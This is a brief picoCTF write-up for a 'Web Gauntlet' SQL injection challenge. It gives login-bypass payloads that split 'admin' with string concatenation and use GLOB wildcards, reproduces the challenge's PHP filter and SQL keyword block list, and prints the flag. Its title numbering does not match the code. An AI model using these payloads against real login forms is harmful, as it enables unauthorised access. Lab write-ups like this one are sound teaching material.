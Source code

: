 # Web Gauntlet - 2

link to the chall - [link](https://play.picoctf.org/practice/challenge/128?page=1&search=web)

---




---

Now the part two of the sql challenge.
Here we go again.

On reading this challenge, it had the same filters as that of Web Gauntlet 2, but the limit for characters was reduced.

But the solution for previous challenge will work here as well.

Username - `admi'||'n`
password - `' GLOB '?` or `' GLOB '*`

![img](./22.png)

```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
?>
```

the flag is `picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}`